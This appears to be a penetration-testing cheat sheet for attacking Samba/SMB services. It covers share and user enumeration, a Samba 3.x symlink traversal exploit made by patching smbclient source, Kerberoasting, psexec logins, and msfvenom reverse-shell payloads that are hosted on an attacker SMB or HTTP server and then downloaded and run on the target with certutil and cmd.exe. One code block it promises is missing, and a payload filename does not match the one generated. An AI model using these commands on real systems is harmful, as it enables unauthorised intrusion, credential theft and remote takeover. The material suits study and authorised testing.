

# Samba

If samba is open, enumerate for usernames, groups, file shares, or bruteforce it

**<u>Initial Scans:</u>**

```bash
#nmap
nmap -v -p 139,445 --script=smb-os-discovery $ip 
nmap -v -p 139,445 --script=smb-vuln* $ip

#get users with rpcclient, see rpc md for more commands
rpcclient -U "" $ip

#get list of shares
crackmapexec smb $ip --shares
crackmapexec smb $ip -u '' -p '' --shares

#enumeration
enum4linux -a $ip > enum4linux.txt
smbmap -H $ip -R
smbclient -L //$ip
smbclient -N -L //$ip
smbclient -U '' -L //$ip
smbclient -U 'user%password' -L //$ip
smbclient //$ip/tmp
echo exit | smbclient -L \\\\$ip
python /usr/share/smbmap/smbmap.py -H $ip -d [domain.domain]

#downloading
smbget -R -U [username] smb://$ip/[share]
```

**<u>Logging In:</u>**

```bash
#specific share
#-U: Username
#-N: anonymous login
smbclient -U '%' //$ip/"Share Name"
smbclient -N \\\\$ip\\share_name

#with creds
crackmapexec smb $ip -u username -p password -M spider_plus

#mounting with creds
sudo mount -t cifs -o 'user=username,password=password' //$ip/share /local/path
```

**<u>Dir symlink traversal (only works on samba ver 3.X):</u>**

```bash
# download & extract source
wget https://download.samba.org/pub/samba/stable/samba-3.4.5.tar.gz
tar -xvf samba-3.4.5.tar.gz
# edit the source to enable the exploit
vim samba-3.4.5/source3/client/client.c
```

Edit the source of the function cmd_symlink() to have the following:

- Change %s%s to %s in the calls to talloc_asprintf()
- Remove the calls to client_get_cur_dir() from the calls to talloc_asprintf()
- add targetname = talloc_asprintf(ctx, "%s", buf); before the call to cli_unix_symlink()

The function should look like this:



```bash
#compile and modify source code
mkdir $HOME/smbclient_3_4_5/
cd samba-3.4.5/source3/
./configure --prefix="$HOME/smbclient_3_4_5/"
make
make install

#exploit
export LD_LIBRARY_PATH="$HOME/smbclient_3_4_5/lib/:$LD_LIBRARY_PATH"
$HOME/smbclient_3_4_5/bin/smbclient -N \\\\$ip\\share_name
symlink / pwn
#should see a new directory called pwn
 
#Then to reset library path:
unset LD_LIBRARY_PATH
```

**<u>If Kerberos is on machine and enabled:</u>**

Obtain the list of all SPNs with the generic user account SVC_TGS listed earlier. We can use Impacket’s GetUserSPNs.py as below:

```bash
python GetUserSPNs.py -request -dc-ip $ip [domain.domain]/SVC_TGS -save -outputfile GetUserSPNs.out
```

**<u>Getting a shell with Psexec:</u>**

```bash
psexec.py [domain.domain]/[username]:[password]@$ip
```

**<u>Reverse shells/spawning SMB server:</u>**

```bash
# on kali, make a new payload to catch the reverse shell
msfvenom -p windows/shell_reverse_tcp \
         LHOST=$my-ip \
         LPORT=9999 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o rev.exe
 
#or add EXITFUNC=process
# on kali, start a new listener
sudo nc -nvlp 9999
# on kali, host payload
sudo impacket-smbserver my-server .
# in exploit shell, downlaod & execute payload
cmd.exe /c  \\192.168.119.236\my-server\rev.exe
 
#smb2 support:
# on kali, make a new payload to catch the reverse shell
msfvenom -p windows/shell_reverse_tcp \
         LHOST=$my-ip \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# on kali, start a new listener
nc -nvlp 6969
# on kali, host payload
sudo impacket-smbserver -smb2support my-server .
# in exploit shell, downlaod & execute payload
cmd.exe /c start /b \\$my-ip\my-server\shell.exe
 
 
#to execute anything you wanna host:
\\$my-ip\my-server\PsExec.exe \\[hostname] -accepteula -s 
\\$my-ip\my-server\root.exe
 
But this generates SMB errors. Instead host the payload over HTTP:
# on kali, host payload
sudo python3 -m http.server 80
# in exploit shell, download payload
certutil.exe -urlcache -split -f http://$my-ip/root.exe %TEMP%\root.exe
# in exploit shell, execute payload
cmd.exe /c start /b %TEMP%\root.exe
```

